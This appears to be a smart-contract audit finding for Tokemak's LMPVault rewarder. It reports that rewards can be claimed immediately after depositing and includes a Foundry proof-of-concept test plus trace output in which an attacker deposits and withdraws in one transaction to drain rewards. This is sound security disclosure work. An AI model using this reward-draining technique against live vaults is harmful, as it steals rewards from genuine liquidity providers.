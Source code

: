 Bald Grape Dragonfly

high

# Flashloan to subtract rewards since users can claim rewards immediately after depositing into the vault.
## Summary

It is possible to abuse the current design of the rewarder since a user is able to claim rewards after depositing into the vault. With this scenario it is possible to execute a flashloan attack exclusively for claiming rewards. 

## Vulnerability Detail

Since the Rewarder model does not have a tracking mechanism and checkpoints in place it is possible to execute a flashloan attack. In one transaction a malicious user is able to send a flashloan (deposit a considerable big amount of assets and then withdraw), and claim the corresponding rewards.

### PoC
```Solidity
    function test_flash_loan() external {       
      
        address attacker = makeAddr("attacker");
        _asset.mint(attacker, 50 ether);        

        _accessController.grantRole(Roles.DV_REWARD_MANAGER_ROLE, address(this));
        _lmpVault.rewarder().addToWhitelist(address(this));      
        _toke.mint(address(this), 1000e18);
        _toke.approve(address(_lmpVault.rewarder()), 1000e18);
        _lmpVault.rewarder().queueNewRewards(1000e18);
      
        vm.roll(block.number + 10_000);
      
        vm.startPrank(attacker);
        _asset.approve(address(_lmpVault), 50 ether);
        _lmpVault.deposit(50 ether, attacker);
        _lmpVault.withdraw(50 ether, attacker, attacker);
        vm.stopPrank();
        assert(_toke.balanceOf(attacker) > 0);
        
    }
```
```Solidity
    ├─ [0] VM::stopPrank() 
    │   └─ ← ()
    ├─ [563] toke::balanceOf(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e]) [staticcall]
    │   └─ ← 1000000000000000000000 [1e21]
    └─ ← ()
```



As we can see in this short but illustrative PoC, it is possible for an attacker to introduce a huge amount of assets, withdraw them and then claim for rewards since the model allows to do that when immediately depositing into the vault. Basically this is almost like subtracting rewards for free. 


## Impact

Any user can claim for rewards after immediately depositing into the vault. This can lead to:

Flash Loan attack (like the PoC) to steal rewards
Steal rewards from users that are really providing liquidity and not just depositing and withdrawing in one transaction. This can be considered as DoS since an attacker is draining a considerable part of the rewards for well-behaved and loyal users. 

## Code Snippet

https://github.com/sherlock-audit/2023-06-tokemak/blob/5d8e902ce33981a6506b1b5fb979a084602c6c9a/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L854-L864 
https://github.com/sherlock-audit/2023-06-tokemak/blob/5d8e902ce33981a6506b1b5fb979a084602c6c9a/v2-core-audit-2023-07-14/src/rewarders/AbstractRewarder.sol#L128-L140
## Tool used

Manual Review

## Recommendation

A tracking mechanism must be implemented for transfers within the rewarder to prevent the above scenario. It is particularly important to update/ implement checkpoints when dealing with user balances, especially in the current design model where nothing prevents arbitrary deposits and withdrawals with rewards claiming .

Further tests need to be conducted within RewardVault.t to comprehensively evaluate the emission of rewards.


